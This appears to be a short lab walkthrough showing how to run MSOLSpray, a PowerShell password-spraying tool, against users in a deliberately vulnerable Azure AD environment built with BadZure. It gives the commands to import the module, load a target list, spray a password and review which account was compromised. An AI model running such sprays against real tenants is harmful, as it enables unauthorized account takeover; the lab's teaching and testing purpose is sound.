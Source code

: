 ### Run MSOLSpray to simulate a password spray attack
1. Import the MSOLSpray module
```
cd $env:SystemDrive\PentestTools\Azure\Attack\MSOLSpray
Import-Module .\MSOLSpray.ps1
```

2. Copy the users.txt file from the BadZure directory to the MSOLSpray directory
* This contains a list of users that will be targets for the password spray attack
```
Copy-Item -Path "$env:SystemDrive\PentestTools\Azure\VulnerableEnv\BadZure\users.txt" -Destination "$env:SystemDrive\PentestTools\Azure\Attack\MSOLSpray"
```

3. Run MSOLSpray
```
Invoke-MSOLSpray -UserList .\users.txt -Password "PASSWORD_FROM_THE_ATTACK_PATH_OUTPUT" -Verbose -OutFile .\sprayresults.txt
```
** Note the non-existent user and the user with MFA configured

4. View the result
* Notice that the user with the password from the attack path output was compromised
```
notepad sprayresults.txt
```